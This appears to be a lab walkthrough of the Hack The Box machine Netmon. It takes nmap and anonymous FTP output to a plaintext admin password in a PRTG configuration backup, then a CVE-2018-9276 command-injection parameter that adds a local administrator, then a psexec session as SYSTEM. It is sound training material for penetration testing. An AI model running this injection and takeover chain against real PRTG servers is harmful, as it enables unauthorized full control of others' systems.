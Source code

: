 # Exercise: Enumerating vulnerabilities caused by default applications in the box Netmon

In this machine, the application PRTG Network Monitor has been installed and the demo features have not been removed or disabled. The vulnerability here allows remote command execution through a demo feature in the product.

Scanning the machine with nmap you get the following output:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Netmon]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- netmon.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19 12:18AM 1024 .rnd
| 02-25-19 10:15PM <DIR> inetpub
| 07-16-16 09:18AM <DIR> PerfLogs
| 02-25-19 10:56PM <DIR> Program Files
| 02-03-19 12:28AM <DIR> Program Files (x86)
| 02-03-19 08:08AM <DIR> Users
|_02-25-19 11:49PM <DIR> Windows
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

We can see that the box is likely running Windows Server 2008 R2 and that it allows anonymous FTP access to the entire main drive. The other thing to note is that there is a web server on port 80 which is running the application PRTG Network Monitor.

The website offers a login page

![PRTG Login Page](../.gitbook/assets/14%20%282%29.png)

Searching the internet for information about PRTG and where it may store configuration information, you find that configuration information should be in c:\ProgramData\Paessler\PRTG Network Monitor \(alternatively, a quick bit of searching in FTP uncovers this\). There you find some configuration files, including what looks like a backup.

```bash
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
10-22-20 10:46PM <DIR> Configuration Auto-Backups
10-22-20 10:05PM <DIR> Log Database
02-03-19 12:18AM <DIR> Logs (Debug)
02-03-19 12:18AM <DIR> Logs (Sensors)
02-03-19 12:18AM <DIR> Logs (System)
10-23-20 12:00AM <DIR> Logs (Web Server)
10-22-20 10:10PM <DIR> Monitoring Database
02-25-19 10:54PM 1189697 PRTG Configuration.dat
02-25-19 10:54PM 1189697 PRTG Configuration.old
07-14-18 03:13AM 1153755 PRTG Configuration.old.bak
10-23-20 07:10AM 1723779 PRTG Graph Data Cache.dat
02-25-19 11:00PM <DIR> Report PDFs
02-03-19 12:18AM <DIR> System Information Database
02-03-19 12:40AM <DIR> Ticket Database
02-03-19 12:18AM <DIR> ToDo Database
```

We can use mget PRTG\* to copy all of the configuration files to our local machine. Looking at "PRTG Configuration.old.bak" first, you find the following information:

```text
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
```

Trying this on the login page doesn't work but looking at the format of the password and updating the year to PrTg@dmin2019 gets us in!

Once in, you can see that the version of PRTG is 18.1.37.13946, which is the same information that nmap gave us in the output above. Looking around the app, you can see the release notes for the application with a warning about the current version

![Release notes for version 18.4.47.1972 in PRTG application](../.gitbook/assets/15%20%282%29.png)

.This particular vulnerability doesn't really help us \(although it may have been a reason for the plain text password in the backup configuration file?\). So you need to look for other vulnerabilities. Searching for vulnerabilities for PRTG, you find a highly critical vulnerability CVE-2018-9276[\[6\]](exercise-enumerating-vulnerabilities-caused-by-default-applications-in-the-box-netmon.md) that allows remote code execution. The vulnerability is related to a demo script that is included with the product that is vulnerable to command injection. When creating a notification in the system, one action that can be selected is to run an executable and of the two options provided one is a PowerShell script OutFile.ps1. This takes a parameter of a file name but if you add a "\|" after the file name, you can add any other PowerShell commands. you can then create a new user and add them to the administrator group using the parameter:

```bash
afile.txt | net user rin password123! /add ; net localgroup administrators rin /add
```

To create a Notification, you go into the menu Setup &gt; Account Settings &gt; Notifications

![Notifications page in Account Settings in PRTG](../.gitbook/assets/16.png)

.Clicking the + button to create a new notification and leave everything as default but select Execute Program:

![Creating a Notification in PRTG](../.gitbook/assets/17.png)

Select the Demo.exe notification outfile.ps1 and enter our crafted command as the Parameter. In the Notifications list, click the menu button on the right and then the bell icon from the popup menu

![Notifications list after creating notification](../.gitbook/assets/18%20%281%29%20%281%29.png)

Once you have done this, you can login using Impacket's psexec.py

```bash
┌─[rin@parrot]─[~/boxes/Netmon/CVE-2018-9276]
└──╼ $psexec.py rin:'password123!'@10.10.10.152
Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file mirjPmkK.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service NeIi on 10.10.10.152.....
[*] Starting service NeIi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```

We could also have logged in using evil-winrm as the user "rin" or instead of creating a user, run a PowerShell command to get a reverse shell.


